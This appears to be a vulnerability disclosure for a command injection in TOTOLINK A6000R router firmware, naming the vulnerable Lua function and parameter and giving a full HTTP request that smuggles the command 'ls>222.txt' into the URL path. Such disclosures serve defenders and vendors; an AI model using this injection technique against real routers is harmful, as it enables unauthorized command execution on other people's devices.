 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (apcli_do_enr_pin_wps)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pin_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pin_wps/arg`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>222.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pin_wps/;ls>222.txt;/dev0/1 HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=80c79bd6ad9bfba9656b7a8bee2a988f
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
